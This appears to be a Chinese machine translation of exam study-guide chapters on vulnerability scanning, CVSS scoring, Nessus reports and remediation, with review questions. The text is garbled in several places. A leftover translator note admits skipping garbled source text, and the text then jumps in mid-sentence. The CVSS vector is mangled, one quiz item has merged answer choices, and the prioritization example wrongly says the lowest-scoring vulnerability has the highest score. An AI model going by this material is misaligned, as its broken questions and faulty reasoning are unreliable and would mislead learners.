



### 凭据扫描与无凭据扫描

另一个需要做出的决定是执行凭据扫描（credentialed scans）还是无凭据扫描（non-credentialed scans）。凭据扫描是由具有被扫描主机管理权限的人执行的，而无凭据扫描是由缺乏这些权限的人执行的。

无凭据扫描通常运行速度更快，需要的设置较少，但它们无法产生与凭据扫描相同质量的信息。这是由于凭据扫描能够从主机本身枚举信息，而无凭据扫描只能查看端口，并只能枚举会在特定端口上响应的软件。凭据扫描还具有以下优势：

> 关键主题

- 操作在主机本身上执行，而不是跨网络执行。
- 拥有更确切的缺失补丁列表。
- 揭示了客户端软件漏洞。
- 凭据扫描可以读取密码策略、获取 `USB` 设备列表、检查杀病毒软件配置，甚至枚举连接到被扫描主机的蓝牙设备。

**图 5-5** 显示，当你创建一个新的扫描策略时，可用的步骤之一是设置凭据。在这里你可以看到选择了 `Windows` 凭据作为类型，并设置了 `SMB` 账户和密码。

#### **图 5-5. 为扫描设置凭据**



扫描器可以扫描各种数据，其中许多数据对漏洞扫描并不感兴趣。限制扫描的文件类型可以获得更快的结果，并减少需要筛选和存储的内容。**图 5-6** 显示了 `Acunetix` 漏洞扫描器中选择的文件类型。

#### 图 5-6. 选择扫描的文件类型



### 基于服务器 vs. 基于代理

漏洞扫描器可以使用安装在设备上的代理（agents），也可以是无代理（agentless）的。虽然许多供应商认为使用代理总是最好的，但如表 5-4 所示，两种方式都有优缺点。

**表 5-4. 基于服务器与基于代理的扫描**

| 类型 | 技术 | 特性 |
|---|---|---|
| 基于代理 | 拉取技术 | 可以从断开的连接或 `DMZ` 中的机器获取信息<br>适用于带宽有限的远程位置<br>对网络连接的依赖性较低<br>基于在中央控制台上定义的策略 |
| 基于服务器 | 推送技术 | 适用于带宽充足的网络<br>依赖于网络连接<br>中心权威负责所有的扫描和部署 |

某些扫描器可以同时进行基于代理和基于服务器的扫描（也称为无代理或基于传感器的扫描）。例如，图 5-7 显示了包含这两类模板的 `Nessus` 模板。

**图 5-7. Nessus 模板库**

**SecurityCenter**

**添加策略模板**


（注：原文后续部分似乎存在大量重复的乱码或占位符文本，根据“不要重复输出原文”的原则，此处仅翻译有意义的结构。若用户提供的文本为重复占位符，请检查源文件。）

阻止漏洞利用的场所。

- 可用性 (`A`)：描述了如果漏洞被利用时可能发生的中断，并有三个可能值：
  - `N`：代表 *none*（无），意味着对可用性没有影响。
  - `P`：代表 *partial*（部分），意味着系统性能下降。
  - `C`：代表 *complete*（完全），意味着系统完全关机。

- 机密性 (`C`)：描述了如果漏洞被利用时可能发生的信息泄露，并有三个可能值：
  - `N`：代表 *none*（无），意味着对机密性没有影响。
  - `P`：代表 *partial*（部分），意味着发生了某些信息的访问。
  - `C`：代表 *complete*（完全），意味着系统上的所有信息都可能被破解。

- 完整性 (`I`)：描述了可能发生的数据篡改类型，并有三个可能值：
  - `N`：代表 *none*（无），意味着对完整性没有影响。
  - `P`：代表 *partial*（部分），意味着发生了某些信息的修改。
  - `C`：代表 *complete*（完全），意味着系统上的所有信息都可能被破解。

`CVSS` 向量看起来如下所示：

```


`VSS2#AV:L/AC:H/Au:M/C:P/I:N/A:N`


# 第 5 章：执行漏洞扫描与漏洞管理

## 漏洞评分系统

该向量的读取方式如下：

*   `AV:L`：访问向量，其中 `L` 代表 *local*（本地），意味着攻击者必须对受影响系统有物理或逻辑访问。
*   `AC:H`：访问复杂度，其中 `H` 代表 *high*（高），意味着该漏洞需要难以发现的特殊条件。
*   `Au:M`：身份验证，其中 `M` 代表 *multiple*（多个），意味着攻击者需要通过两个或多个身份验证机制。
*   `C:P`：机密性，其中 `P` 代表 *partial*（部分），意味着发生了某些信息的访问。
*   `I:N`：完整性，其中 `N` 代表 *none*（无），意味着对完整性没有影响。
*   `A:N`：可用性，其中 `N` 代表 *none*（无），意味着对可用性没有影响。

## 权限与访问

对扫描工具的访问必须严格控制，因为在未经授权的情况下扫描设备是犯罪。允许使用这些工具的用户组应越小越好。还应对对这些工具的使用进行审计，以确保工具是按照作战规则（`rules of engagement`）使用的。

## 执行扫描

配置扫描在某些取决于扫描产品，但以下是关于进行扫描的一些通用建议：

*   针对环境测试扫描器，并采取手术刀式的处理方法，而不是使用“散弹式”的一次性到位方法。
*   关键业务流量和流量模式需要纳入漏洞扫描中，因为扫描本身会增加网络流量。
*   考虑扫描运行的时间以及受影响业务运营的时区。

这些是进行扫描的高级步骤：

1.  **步骤 1**。将 `IP` 地址或域名添加到扫描中。
2.  **步骤 2**。选择扫描仪设备（硬件或软件传感器）。
3.  **步骤 3**。选择扫描选项。例如，在 `Nessus` 的“高级设置”（`Advanced Settings`）中，可以使用自定义策略设置来更改扫描操作。以下是一些选定的示例：
    *   `auto_update_delay`：两次更新之间等待的小时数。四 (`4`) 是允许的最小间隔。
    *   `global.max_hosts`：对测试主机进行同时检查的最大数量。
    *   `global.max_simult_tcp_sessions`：所有扫描之间 `TCP` 会话的最大数量。
    *   `max_hosts`：扫描期间一次检查的最大主机数。
4.  **步骤 4**。开始扫描。
5.  **步骤 5**。查看扫描状态和结果。

图 5-8 显示了使用复选框和下拉菜单编辑扫描策略（以及扫描操作）的另一种选项。

图 5-8。在 `Nessus` 中编辑扫描策略

## 生成报告

扫描结果会提供给关键安全人员，可能还会提供给更高别的人员。这些报告需要易于阅读，且不应要求高级的技术知识。你可能需要的某些类型报告如下：

*   **技术报告**：技术报告最全面，技术性也最高。它们对于安全知识较低的接收者来说可能不合适。
*   **变更报告**：变更报告仅指示自上次报告以来发生的变化。包括新漏洞、开放的端口、新服务以及新增/删除的主机，以及已修复问题的摘要。
*   **趋势报告**：趋势报告描绘了工具通过其过去的扫描所评估的风险水平随时间的变化。
*   **执行报告**：此类报告仅提供适度的图表和简短的说明文字，以辅助决策。

其他报告类型可能专门用于合规性问题。

## 自动化与人工分发

## 修复

在生成漏洞报告后，下一步是修复发现的漏洞。此步骤包括对漏洞进行优先级排序，并在测试措施的同时进行必要的更改。

### 优先级排序

在第 4 章中，你学习了风险评估矩阵，这是此步骤的极佳工具。虽然第 4 章所示的矩阵仅关注可能性和影响，在这种情况下你可以使用关键性和实施难度作为两个轴。通过结合这些值，你可以处理最关键的问题并处理简单的项目，或“触手可得的果实”。

公司通常尝试使用漏洞评分系统 (`CVSS`) 解析漏洞。然而，在某些情况下，你可能会发现得分较低的漏洞可以快速解决。

例如，假设你运行了漏洞扫描并收到了扫描报告。你想处理所示基分（`Base Scores`）的漏洞：

*   漏洞 `A`：`1.2`
*   漏洞 `B`：`9.2`
*   漏洞 `C`：`8.0`
*   漏洞 `D`：`4.3`

当你分析漏洞时，发现漏洞 `A` 和漏洞 `C` 可以通过较少的工作轻松解决。漏洞 `B` 需要大量工作，而漏洞 `D` 需要中等工作量。你应该先处理哪个漏洞？

你应该先处理漏洞 `C`，因为在两个易于解决的选项中它的得分最高。你不应该先处理漏洞 `A`，因为它的基分较低。你不应该先处理漏洞 `B`，因为它需要大量工作。你不应该先处理漏洞 `D`，因为它的得分最高，而且它需要中等工作量。

### 关键性

每个显示漏洞的系统必须根据该系统对组织的关键性进行评分。可以使用 `1` 到 `10` 的评分系统，`10` 代表最关键，`1` 代表完全可以丢弃。

### 实施难度

每个根据关键性确定的系统还必须根据实施有效防御措施的难度进行评分。可以使用 `1` 到 `10` 的评分系统，`10` 代表最困难，`1` 代表简单快捷。

### 通信/变更控制

选定防御措施后，必须将所需的更改通知变更控制委员会进行批准。变更控制流程确保所做的更改始终符合安全目标，并按照公司惯例执行。更改获得批准后即可实施。

## 沙箱化/测试

某些缓解措施在部署过程中会对组织带来风险。可能会出现意外之外的结果，且这些结果可能是非人意的。在实施解决方案时，要预见到所有的副作用是非常困难的。因此，测试应该在沙箱或与网络其他部分隔离的环境中进行。对此的一种安全方法是如第 `1` 章“应用环境侦察技术”讨论的那样，创建一个虚拟环境作为测试平台。一旦认为安全，即可在生产环境中实施该防御措施。

## 修复阻碍

在某些情况下，可能存在某些导致特定解决方案变得不可接受或无法实施的问题。这些修复阻碍将在后续章节中介绍。

### 谅解备忘录 (MOU)

谅解备忘录（`MOU`）是一种文件，虽然不具有法律约束力，但表示各方对于共同完成某项工作的通用协议。组织可能与多个组织签署谅解备忘录，在某些情况下，谅解备忘录可能包含限制或防止某些措施部署的安全要求。

### 服务水平协议 (SLA)

服务水平协议（`SLA`）规定一方提供的服务、服务成本以及性能预期的文档。这些合同可能存在于组织外部的第三方之间，以及组织内部部门之间。有时，这些 `SLA` 可能包含限制或防止某些措施部署的规范。

## 组织治理

### 业务流程中断

缓解措施的部署不能以中断业务运营和流程的方式进行。因此，在非工作时间进行这些活动的需求也可能是阻碍漏洞修复的因素之一。

### 功能降低

最后，某些解决方案产生的问题比解决的还要多。某些情况下，由于会破坏关键任务应用程序或流程，可能无法实施缓解。组织可能需要研究替代解决方案。

### 持续扫描与持续监控

这种实践对组织的好处包括：

*   能够实现风险状态的近乎实时快照流。
*   帮助组织将真实事件与无影响事件隔离开。
*   极大提高 `IT` 管理者的态势感知水平。
*   可以减少系统和应用程序维护的成本。

## 考试准备任务

如引言中“考试准备策略”部分提到的，你在准备考试时有几个选择：这里的练习题、第 `5` 章“最终准备”以及 `Pearson` 认证测试引擎中的模拟考试。

### 复习所有关键主题

回顾本章最重要的主题，这些主题在页外边距标记有“关键主题”图标。表 `5-5` 列出了这些关键主题及其所在的页码。

**表 5-5 第 5 章的关键主题**

| 关键主题元素 | 描述 | 页码 |
|---|---|---|
| 图 5-1 | `PSI-DSS` 的高级概述 | |
| 表 5-2 | 数据分类 | |
| 表 5-3 | 政府和军事分类 | |
| 列表 | 资产类型 | |
| 列表 | 带有凭据扫描的好处 | |
| 图 5-6 | 选择扫描的文件类型 | |
| 表 5-4 | 基于服务器的 vs 基于代理的扫描 | |
| 列表 | 扫描建议 | |
| 步骤 | 执行扫描的高级步骤 | |
| 列表 | 扫描报告类型 | |
| 列表 | 持续监控的好处 | |

### 定义关键术语

定义本章中的以下关键术语并对照词表检查你的答案：

*   萨班斯奥克斯利法案 (`SOX`)
*   健康保险流通性与责任法案 (`HIPAA`)
*   `1999`年《格姆-莱奇-布莱利法案》(`GLBA`)
*   数据分类
*   机密（商业）
*   私有
*   专有
*   公开
*   绝密
*   秘密
*   机密（政府）
*   敏感但未分类
*   未分类
*   资产清单
*   风险偏好
*   发现扫描
*   评估扫描
*   漏洞馈送
*   范围（扫描）
*   带有凭据的扫描
*   非带凭据扫描
*   基于服务器的扫描
*   基于代理的扫描
*   安全内容自动化协议 (`SCAP`)
*   常见配置枚举 (`CCE`)
*   常见平台枚举 (`CPE`)
*   常见弱性枚举 (`CWE`)
*   常见漏洞与披露 (`CVE`)
*   常见漏洞评分系统 (`CVSS`)
*   访问向量 (`AV`)
*   访问复杂度 (`AC`)
*   身份验证 (`Au`)
*   可用性 (`A`)
*   机密性 (`C`)
*   完整性 (`I`)
*   技术报告
*   变更报告
*   趋势报告
*   执行报告
*   谅解备忘录 (`MOU`)
*   服务水平协议 (`SLA`)

### 复习题

1.  风险评估团队正在进行数据分类。在下列哪些分类中，团队应该将公司使用的最敏感数据放在哪类？
    *   a. 私有
    *   b. c. 公开
    *   d. 机密
2.  你正在参与资产分类过程。首要任务是识别关键资产。下列哪项不是关键资产的示例？
    *   a. 托管客户数据库的服务器
    *   b. 为电子商务服务器提供访问的网络
    *   c. 为访客提供的互联网访问服务
    *   d. 远程办公人员使用的 `VPN` 服务器
3.  网络安全团队正在完成建立漏洞管理的过程。最后一个要完成的项目是什么？
    *   a. 建立扫描频率
    *   b. 识别需求
    *   c. 持续扫描与持续监控
    *   d. 修复
4.  你需要运行扫描，但你没有设备管理员权限。下列哪项是在缺乏管理员权限的情况下执行的？
    *   a. 根扫描
    *   b. 带有凭据的扫描
    *   c. 非带凭据扫描
    *   d. 管理员扫描
5.  团队正在权衡带凭据和非带凭据扫描的优缺点。下列哪项不是在客户端系统上带凭据扫描的好处？
    *   a. 在主机本身而非跨网络执行
    *   b. 有更确定的缺失补丁列表
    *   c. 发现了服务器端漏洞
    *   d. 带凭据的扫描可以读取密码策略
6.  你的公司刚刚投资了一种新的无代理（`agentless`）扫描工具。下列关于无代理不正确？
    *   a. 它适用于带宽有限的远程地点。
    *   b. 它适用于带宽充足的网络。
    *   c. 它取决于网络连接。
    *   d. 由中央机构执行所有的扫描和部署。
7.  `CIO` 决定实施一种用于枚举软件缺陷和配置问题的安全自动化标准。他打算实施哪一个？
    *   a. `SCAP`
    *   b. `SIEM`
    *   c. `SIP`
    *   d. `SCADA`
8.  你正在协助高级技术人员执行漏洞扫描。在开始之前，他决定回顾执行扫描的一些关键指南。下列哪项不是关于执行扫描的建议？
    *   a. 采取手术刀式的精准扫描。
    *   b. 考虑关键业务流量和流量模式。
    *   c. 考虑你运行扫描的时间。
    *   d. 采用一次性扫描的方法。
9.  一位新员工正在协助你执行漏洞扫描。在与你简短会面后，她问从哪里开始。下列哪项是执行高级级扫描的第一步？
    *   a. 开始扫描。
    *   b. 将 `IP` 地址添加到扫描中。
    *   c. 选择扫描设备。
    *   d. 查看扫描状态和结果。
10. 执行团队要求你生成一份涵盖上次漏洞扫描结果的报告。团队特别感兴趣的是风险水平随时间推移是上升还是下降？以下哪项显示了风险水平随时间的变化？
    *   a. 技术报告
    *   b. 变更报告
    *   c. 趋势报告
    *   d. 执行报告

# 第 6 章：分析扫描输出并识别常见漏洞

本章涵盖了以下主题：

*   `2.0` 漏洞管理
*   `2.2` 在给定的场景下，分析漏洞扫描产生的输出结果。
    *   **分析漏洞扫描报告：** 描述了如何审查和解释扫描结果，包括识别假阳性（`false positives`）和假阴性（`false negatives`）以及创建异常
    *   **验证结果并关联其他数据点：** 涵盖验证过程，包括与最佳实践或合规性进行比较、协调结果、审查相关日志和/或其他数据源，以及确定趋势
*   `2.3` 比较并对比组织内目标发现的常见漏洞。
    *   **服务器：** 描述常见漏洞。
    *   **终端：** 识别在终端中发现的问题。
    *   **网络基础设施：** 列出常见目标和常见攻击。
    *   **网络设备：** 描述硬件设备的问题。
    *   **虚拟基础设施：** 涵盖虚拟主机、虚拟网络和管理接口的问题。
    *   **移动设备：** 识别智能手机等移动设备的问题。
    *   **互连网络：** 讨论互连网络的安全考量。
    *   **虚拟专用网络 (`VPN`)：** 列出 `VPN` 连接中的常见漏洞。
    *   **工业控制系统 (`ICS`)：** 介绍 `ICS` 系统和安全问题。
    *   **`SCADA` 设备：** 描述 `SCADA` 设备的安全考量。

收集扫描结果后，必须对其进行分析。这涉及生成适当类型的报告，以反映对数据的分析。它还涉及验证结果以确保它们能够准确地反映当前状态。当分析结果的人员充分了解各种目标的常见漏洞和安全问题时，这种验证将得到极大增强。本章将探讨所有这些问题。

## “我已经掌握这些了吗？”测验

“我已经掌握这些了吗？”测验可以让你评估是否应该阅读整个章节。表 `6-1` 列出了本章的主要标题以及涵盖这些标题内容的“我已经掌握这些了吗？”问题，以便你评估对这些特定领域的知识掌握情况。答案位于附录 `A`，“我已经掌握这些了吗？”测验和复习题的答案”。如果你没有漏掉任何一个自测问题，你可能想要跳到“考试准备任务”。

**表 6-1. “我已经掌握这些了吗？”基础主题与问题映射**

| 基础主题 | 问题 |
|---|---|
| 分析漏洞扫描产生的输出结果 | `1`–`3` |
| 比较并对比组织内目标发现的常见漏洞 | `4`-`5` |

1.  你需要更新你的漏洞扫描器，使其能够识别最近的威胁。在讨论漏洞扫描产品时，以下哪项类似于个人计算机上病毒防护程序中定期添加和更新的病毒定义？
    *   a. 插件 (`Plug-in`)
    *   b. 异常 (`Exception`)
    *   c. 维护钩子 (`Maintenance hook`)
    *   d. 签名 (`Signature`)
2.  你最近执行了次漏洞扫描，扫描器多次识别出漏洞，但事实证明这些漏洞并不是正确的。对于被扫描器识别为漏洞但实际上并非漏洞的问题，以下哪个术语正确？
    *   a. 真阳性 (`True positive`)
    *   b. 真阴性 (`True negative`)
    *   c. 假阳性 (`False positive`)
    *   d. 假阴性 (`False negative`)
3.  在执行漏洞扫描并审查已识别的漏洞列表后，你发现了一个公司已知的漏洞，但由于缓解成本的原因决定接受它。以下哪项用于防止报告已记录但无法采取任何措施的漏洞？
    *   a. 真阳性 (`True positive`)
    *   b. 异常 (`Exception`)
    *   c. 维护钩子 (`Maintenance hook`)
    *   d. 签名 (`Signature`)
4.  以下哪项是构建在代码中的指令，允许了解“后门”的人使用这些指令在不使用正常访问控制的情况下连接、查看和编辑代码？
    *   a. `Root` 门 (`Root door`)
    *   b. 维护钩子 (`Maintenance hook`)
    *   c. 陷阱 (`Trap door`)
    *   d. 凭证入口 (`Credentialed entry`)
5.  以下哪种攻击试图利用系统在完成常见任务时发生的事件序列？
    *   a. 间接对象引用 (`Indirect object reference`)
    *   b. `XSS`
    *   c. `CSRF`
    *   d. `TOC/TOU`

## 基础输出主题

### 分析漏洞扫描产生的输出结果

所有漏洞扫描器都会生成各种类型的报告，这些报告可以作为根据报告中所包含的数据得出结论的起点。由于扫描器在识别漏洞方面并非完美，因此这种分析需要一些怀疑态度。所有阳性结果都应该经过验证，而且你应该记住，一份干净的报告并不意味着不存在此类漏洞；它仅表示在这种情况的“快照”中没有出现此类漏洞。让我们仔细查看这一过程。

#### 分析漏洞扫描报告

尽管大多数扫描工具都有预配置的报告类型，但你可能会发现，创建自己的报告或修改某些默认报告可能会带来更具可操作性的结果。为了讨论方便，我们将使用著名的漏洞扫描器 `Nessus`，并以其报告作为示例。其他工具的外部和功能可能不同，但此处显示的报告在不同的扫描器中非常常见。

报告可以以 `HTML`（默认）、`PDF` 或逗号分隔值（`CSV`；用于电子表格、数据库）格式生成。以下是可用的一些报告：

*   **主机概览 (`Hosts Summary`)**：此报告列出了所有扫描的主机，显示每次扫描的进度以及每个主机发现的漏洞数量，并按严重程度组织和颜色编码。报告中的颜色具有含义：绿色表示信息性，蓝色表示低，橙色表示中等，红色表示高，紫色表示严重。图 6-1 显示了扫描的主机概览报告。
    *   图 6-1. 主机概览报告
*   **主机漏洞报告 (`Vulnerabilities by Host`)**：通过点击主机概览报告中的一个 `IP` 地址进入此报告。图 6-2 显示了扫描的主机概览报告。这里列出了在该主机发现的漏洞 ID 和名称，并按严重程度和颜色代码进行组织。
    *   图 6-2. 主机漏洞报告
    *   

| 严重 | 高 | 中等 | 低 | 信息 |
|---|---|---|---|---|
| `0` | `0` | `4` | `1` | |

详情

| 严重程度 | 插件 ID | 名称 |
|---|---|---|
| 中等 (`5.1`) | `18498` | `Windows` 远程桌面 |
| 中等 (`5.0`) | `26520` | `Windows` 空白认证 |
| 中等 (`5.0`) | `57608` | 禁用 `SMB` 签名 |
| 中等 (`4.3`) | `57630` | 终端服务加密级别为中或低 |
| 低 (`2.6`) | `30218` | 终端服务加密级别不符合 `FIPS-140` |
| 信息 | `10150` | `Windows` `BIOS/SMB` 远程披露 |
| 信息 | `10287` | 跟踪信息 |
| 信息 | `10294` | 可能 `SMB` 登录 |
| 信息 | `11011` | `Microsoft` `SMB` 原生系统信息 |
| 信息 | `10940` | 已启用 `Windows` 终端服务 |
| 信息 | `11219` | `Windows` `SMB` 服务检测 |
| 信息 | `11936` | `Nessus` `SYN` 扫描 |
| 信息 | `12053` | 操作系统识别 |
| 信息 | `19506` | 热点全限定域名解析 |
| 信息 | `24786` | `Nessus` 以管理员权限进行 `Windows` 扫描 |
| 信息 | `25220` | 支持 `TCP/IP` 戳 |
| 信息 | `28017` | `Microsoft` `Windows` `SMB` 注册表：`Nessus` 无法访问 |
| 信息 | `35716` | 以太网厂商检测 |
| 信息 | `45590` | 通用平台命名 (`CPE`) |
| 信息 | `54615` | 设备类型

**什么是插件？**

插件类似于个人计算机病毒防护程序中定期添加和更新的病毒定义。

*   **插件漏洞 (`Vulnerabilities by Plug-in`)**：此报告显示了主机漏洞报告中的相同信息，但它是按插件而不是按主机组织数据的。图 6-3 为插件家族漏洞报告。
    *   图 6-3. 插件家族漏洞报告

**按插件家族分类漏洞**

| 按插件家族分类的漏洞 - 产品类型家族 | |
|---|---|
| 类型 | 已缓解 (`Mitigated`) | `CVSS >=7.0` | 可估计 (`Estimable`) | 补丁可用：是 (`Patch Avail: Yes`) | 可被利用主机 (`Exploitable Hosts`) |
| 操作系统 (`OS`) | `850` | | | | |
| 服务 (`Service`) | `1687` | `658` | | | |
| 移动设备 (`Mobile Devices`) | `0` | `0` | | | |
| 网络 (`Network`) | `1356` | `516` | `16` | | |
| 应用 (`Application`) | `1567` | `538` | | | |
| `Reveal` | `452` | `668` | | | |
| `UNIX` | `1620` | `863` | | | |
| 其他 (`Other`) | `2797` | `2494` | | | `375` |

| 按插件家族分类的漏洞 - Web 家族 | |
|---|---|
| 类型 | 已缓解 (`Mitigated`) | `CVSS >=7.0` | 可估计 (`Estimable`) | 补丁可用：是 (`Patch Avail: Yes`) | 可被利用主机 (`Exploitable Hosts`) |
| `CMS` | `715` | | | | `80` |
| 服务 (`Service`) | `132` | `275` | | | `24` |
| 数据库 (`Database`) | `0` | | | | |
| 物联网 (`Internet of Things`) | `0` | | | | |
| 邮件 (`Mail`) | `1687` | `658` | | | `16` |
| `Web` 客户端 (`Web Clients`) | `563` | `1047` | | | `17` |
| 其他 (`Other`) | `4568` | `1668` | | | `117` |

| 按插件家族分类的漏洞 - 协议家族 | |
|---|---|
| 类型 | 已缓解 (`Mitigated`) | `CVSS >=7.0` | 可估计 (`Estimable`) | 补丁可用：是 (`Patch Avail: Yes`) | 可被利用主机 (`Exploitable Hosts`) |
| `DNS` | `85` | | | | `28` |
| `HTTP` | `2112` | `658` | | | `55` |
| `FTP` | `62` | | | | `81` |
| `J2EE` | `111` | `512` | | | `11` |
| `POP` | `0` | | | | |
| 服务 (`Service`) | `34` | | | | `25` |
| `SHARP` | `729` | `318` | | | `50` |
| 其他 (`Other`) | `0` | | | | |

| 按插件家族分类的漏洞 - 杂项 | |
|---|---|
| 类型 | 已缓解 (`Mitigated`) | `CVSS >=7.0` | 可估计 (`Estimable`) | 补丁可用：是 (`Patch Avail: Yes`) | 可被利用主机 (`Exploitable Hosts`) |
| 普通 (`General`) | `29` | | | | `50` |
| 操作系统检测 (`OS Detection`) | `14` | | | | `50` |
| 策略 (`Policy`) | `807` | | | | `26` |
| 端口扫描 (`Port Scan`) | `13468` | | | | `50` |
| 服务检测 (`Service Detection`) | `3234` | `10735` | | | |
| 其他 (`Other`) | `816` | `3040` | | | |

#### 审查并解释扫描结果

当安全分析师拥有相关报告时，必须对结果进行审查和解释。审查过程遵循上一节提出的通用大纲。在进行任何重大推断和采取行动之前，必须修正扫描器做出的错误假设，并优先考虑后续行动。这些步骤包含以下列表中：

